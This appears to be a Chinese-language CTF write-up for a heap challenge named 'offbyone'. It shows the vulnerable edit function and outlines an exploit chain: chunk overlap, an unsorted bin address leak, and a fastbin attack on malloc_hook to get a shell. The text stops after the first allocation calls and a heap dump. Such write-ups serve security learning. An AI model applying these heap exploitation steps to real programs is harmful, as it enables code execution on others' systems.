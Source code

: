 ```yaml
---
title: CTF | offbyone writeup
date: 2018-09-27 22:02:10
tags:
---
```

`offbyone`  `fastbin attack` `chunk overlap` 


题目就叫 `offbyone`，是 `xman` 小姐姐给的，不清楚出处...

`offbyone` 漏洞的大致思路：
1. 改写下一个块的`size`
2. 改写下一个块的`pre inuse`位
`chunk overlap `：
1. Overwrite next chunk’s size => extend free chunk
2. Overwrite next chunk’s size => extend allocated chunk
3. Overwrite next chunk’s size => shrink free chunk

这道题的 `offbyone` 比较宽松，可以写任意字节，而不仅仅是 `null`
### 程序分析
`edit` 函数有 `offbyone`：
```c
  if ( v1 >= 0 && v1 <= 15 && ptrs[v1] )
  {
    puts("your note:");
    v2 = strlen(ptrs[v1]);
    read(0, (void *)ptrs[v1], v2);
    puts("done.");
  }
```


### 利用思路
通过 `offbyone` 实现` chunk overlap`,利用 `unsorted bin `切分操作 `leak address`, 再利用 `fastbin attack` 构造 `fake chunk` 修改 `malloc_hook`, 最后 `getshell`
有几个关键的点：
1. `fastbin attack` 任意地址写
2. 改写 `size` 域，扩大后面一个，造成 `chunk overlapping` 堆块重叠，利用其中一个堆块对另一个堆块读写
3. `one_gadget`不好用->`malloc_printf` (可以通过 `double free` 触发，这样里面调用 `malloc` 函数) 
4. 利用 `unsorted bin `切分操作，让 `chunk` 写入 `fd,bk` 指针,然后泄露地址
5. 对 `size` 进行检查，只检查低 `32` 位。
6. `malloc chunk `时需要时`0x.8`的格式，这样才会覆盖到 `pre_size`,比如 `0x18`，进行对齐的时候直接对齐到 `0x20`，可以使用下一个 `chunk` 的前八个字节。在通过 `offbyone`,就可以改到 `pre_inuse` 位。但是如果是 `0x20`，就会对齐到 `0x30`,`offbyone` 盖不到。

### 利用过程
#### leak address
首先 `malloc` 5 个 `chunk`
```c
add(0x28,'a'*0x28)#0 
add(0xf8,'a'*0xf8)#1
add(0x68,'a'*0x68)#2
add(0x60,'a'*0x60)#3
add(0x60,'a'*0x60)#4
```
```python
gef➤  heap chunks
Chunk(addr=0x558de32e6010, size=0x30, flags=PREV_INUSE)
    [0x0000558de32e6010     61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61     aaaaaaaaaaaaaaaa]
Chunk(addr=0x558de32e6040, size=0x100, flags=PREV_INUSE)
    [0x0000558de32e6040     61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61     aaaaaaaaaaaaaaaa]
Chunk(addr=0x558de32e6140, size=0x70, flags=PREV_INUSE)
    [0x0000558de32e6140     61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61     aaaaaaaaaaaaaaaa]
Chunk(addr=0x558de32e61b0, size=0x70, flags=PREV_INUSE)
```